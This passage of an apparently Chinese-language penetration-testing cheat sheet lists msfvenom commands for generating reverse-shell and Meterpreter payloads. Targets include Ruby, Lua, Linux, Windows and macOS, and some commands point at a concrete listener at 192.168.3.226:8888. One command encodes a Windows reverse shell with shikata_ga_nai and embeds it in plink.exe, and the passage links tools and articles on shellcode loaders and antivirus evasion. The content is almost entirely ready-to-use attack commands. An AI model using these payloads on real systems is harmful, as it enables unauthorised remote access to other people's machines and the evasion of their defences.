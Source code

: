 **Ruby**
```bash
msfvenom -p ruby/shell_reverse_tcp LHOST=192.168.3.226 LPORT=8888 -f raw -o payload.rb
```

**Lua**
```bash
msfvenom -p cmd/unix/reverse_lua LHOST=192.168.3.226 LPORT=8888 -f raw -o payload.lua
```

#### shellcode

**linux based shellcode**
```bash
msfvenom -p linux/x86/meterpreter/reverse_tcp lhost=your-ip lport=your-port -f <language>
```

**windows based shellcode**
```bash
msfvenom -p windows/meterpreter/reverse_tcp lhost=your-ip lport=your-port -f <language>
```

**mac based shellcode**
```bash
msfvenom -p osx/x86/shell_reverse_tcp lhost=your-ip lport=your-port -f <language>
```

---

### msfencode

```bash
msfvenom windows/shell_reverse_tcp lhost=your-ip lport=your-port R -e x86/shikata_ga_nai -t exe -c -9 -x /usr/share/windows-binaries/plink.exe(载体) -o ./shell.exe
```

## Payload Generation

**相关工具**
- [mdsecactivebreach/CACTUSTORCH](https://github.com/mdsecactivebreach/CACTUSTORCH)
- [mdsecactivebreach/SharpShooter](https://github.com/mdsecactivebreach/SharpShooter)
- [tyranid/DotNetToJScript](https://github.com/tyranid/DotNetToJScript)
- [TheWover/donut](https://github.com/TheWover/donut)
- [KINGSABRI/DotNetToJScriptMini](https://github.com/KINGSABRI/DotNetToJScriptMini)

## Loader

**相关文章**
- [CS免杀-Shellcode Loader原理(python)](https://mp.weixin.qq.com/s/-WcEW1aznO2IuCezkCe9HQ)
- [CS免杀-环境和编码补充(python)](https://mp.weixin.qq.com/s/_uMFatf4_yfGit-Xu7Ml9A)
- [利用加载器以及Python反序列化绕过AV](https://www.echocipher.life/index.php/archives/648/)
- [利用Python反序列化运行加载器实现免杀](https://my.oschina.net/u/4581868/blog/4380404)
- [shellcode加载总结](https://uknowsec.cn/posts/notes/shellcode%E5%8A%A0%E8%BD%BD%E6%80%BB%E7%BB%93.html)
- [从剖析CS木马生成到开发免杀工具](https://www.anquanke.com/post/id/210001)
